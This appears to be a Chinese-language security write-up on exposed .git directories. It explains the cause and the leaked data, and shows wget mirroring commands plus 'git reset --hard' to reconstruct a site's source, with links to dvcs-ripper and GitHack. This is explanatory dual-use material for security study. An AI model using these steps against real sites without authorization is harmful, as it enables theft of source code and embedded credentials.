 **漏洞成因**
在运行`git init`初始化代码库的时候，会在当前目录下面产生一个名为`.git`的隐藏文件，用来记录代码的变更记录等等。在发布代码的时候，把.git这个目录没有删除，直接发布了。使用这个文件，可以用来恢复源代码。

e.g. target.com/.git

**漏洞利用**
下载.git文件

```
wget --mirror --include-directories=/.git http://www.target.com/.git
```

代码重构

```
git reset --hard
```

**利用工具**

- [dvcs-ripper](https://github.com/kost/dvcs-ripper)（除了git还支持很多其他的版本管理系统）
- [GitHack](https://github.com/lijiejie/GitHack)

---------------

----------------

[git](https://git-scm.com/)可以说是当今最受欢迎的版本控制/版本管理软件了, 很多基于git的云端托管仓库都提供了
免费的托管服务, 甚至有不少还支持免费私有仓库, 如bitbucket和国内的gitosc(开源中国)等.

### 关键文件

git在初始化项目的时候, 会在项目的根目录(可用`git rev-parse --show-toplevel`查看)创建一个名为
`.git`的隐藏文件夹, 里面包含了本地所有commit的历史记录. 如果无意间将这个目录置于WEB的路径下让用户可以访问,
那么也就泄露了几乎所有的源代码和其他其他敏感信息.

### 泄露内容

- 所有该项目的源代码
- 私有仓库的地址
- 私密的配置信息
- 所有commiter的邮箱帐号信息
- (可能)内部的帐号和密码
- ...

### 利用方法

常规的利用方法就是下载整个目录, 然后用`git`命令回滚整个项目:

```
wget -r --no-parent --mirror http://www.example.com/.git
cd www.example.com && git reset --hard
```

当然也有一些自动化利用的脚本:

- [dvcs-ripper](https://github.com/kost/dvcs-ripper): 基于perl的工具,除了git还支持很多版本管理系统
- [GitHack](https://github.com/lijiejie/GitHack)
